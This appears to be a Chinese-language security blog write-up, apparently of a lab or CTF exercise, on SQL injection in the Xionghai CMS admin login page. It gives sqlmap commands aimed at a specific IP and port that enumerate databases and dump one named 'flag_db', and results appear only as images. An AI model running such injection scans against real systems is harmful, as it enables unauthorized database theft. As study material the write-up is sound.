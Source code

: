 ```yaml
---
title: "熊海 CMS 后台登录的 SQL 注入"
date: 2024-02-12
description: "管理员登录页面可以在不登陆的情况下用 SQL 注入泄露数据库信息"
tags: ["SQL注入","后端漏洞"]
featured_image: ""
# images is optional, but needed for showing Twitter Card
images: []
categories: "sec"
comment: false
draft: false
---
```


## 手工注入

![sqli4](/images/sqli1/sqli4-4.png)


## 用 sqlmap 扫描

使用的 sqlmap 语句如下。--forms 是对登录框的表单进行扫描，如果这个 forms 指令行不通，可以考虑抓包到 txt 用 -r 扫描。

    sqlmap -u http://111.9.41.91:53008/admin/?r=index  --forms --batch --dbs

--dbs 的意思是列出所有数据库名称

    sqlmap -u http://111.9.41.91:53008/admin/?r=index  --forms --batch -D flag_db --dump

-D 是指定数据库，--dump 是以文件形式导出。

![sqli4](/images/sqli1/sqli4-0.png)

![sqli4](/images/sqli1/sqli4-1.png)

![sqli4](/images/sqli1/sqli4-2.png)